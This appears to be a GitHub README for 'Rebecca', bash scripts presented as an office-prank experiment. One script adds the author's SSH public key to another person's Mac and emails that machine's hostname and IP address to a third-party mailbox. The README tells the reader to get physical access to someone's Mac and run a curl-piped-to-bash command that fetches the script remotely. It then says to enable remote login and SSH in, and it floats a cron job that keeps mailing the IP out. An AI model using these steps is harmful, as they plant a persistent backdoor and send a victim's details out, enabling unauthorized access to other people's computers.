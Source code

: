 # Rebecca
Rebecca gives authorized ssh access to another user's mac PC.

**_I HIGHLY RECOMMEND GETTING PERMISSION FROM THE USER FIRST_**

Rebecca consist of two scripts, one to add rsa public key into the authorized_keys of the user's mac PC and email relevant information for ssh to a third party mailbox. The other to remove rsa public key from the authorized_keys of the user's mac PC.

## Why Rebecca was created?
Rebecca was created to explore and experiment with rsa key pairs, also for a little office fun :smirk:.

With ssh access, one can make a mac talk to the user, launch random browsers, sleep the mac PC, etc. Some interesting commands to play with:
```
say "hello world"
open "http://google.com"
pmset sleepnow
```

## How to use Rebecca?
Before using Rebecca, there are a few configurations to make:
1. you will want to clone this to your own github respository
2. you will want to create a rsa key pair if you don't have one
3. change the rsa public key in rebecca.sh to your own rsa public key (add your own identifier at the end)
4. change the third party mailbox in rebecca.sh to your own mailbox
5. change identifier in purge.sh to your identifier otherwise purge.sh will not work

Steps to gain access:
1. get physical access of a person's mac PC
2. open terminal and run the bash command that links to rebecca.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/rebecca.sh)`
3. turn on remote login sharing
4. check mailbox for hostname and ip address
5. ssh in with the hostname and ip address, e.g.
* `ssh -i private_rsa_key_file hostname@192.168.123.123`

To remove from user's mac PC:
1. open terminal and run the bash command that links to purge.sh in repository, e.g.
* `bash <(curl -s https://raw.githubusercontent.com/Milleus/rebecca/master/purge.sh)`

## Possible improvements
Rebecca relies on the ip address of the user's PC. In the event where the user is assigned another ip address, it will be impossible to ssh in. A solution to this problem would be to set up a scheduled job on the user's PC to send out its ip address in an email (crontabs?). There is currently no intention to further improve rebecca as this is only an experimental project.

## Credits
Thanks to Ryan Tan and Ken Chuan for this interesting idea and guidance, as well as all who have given me permission to experiment on their laptops :grin:.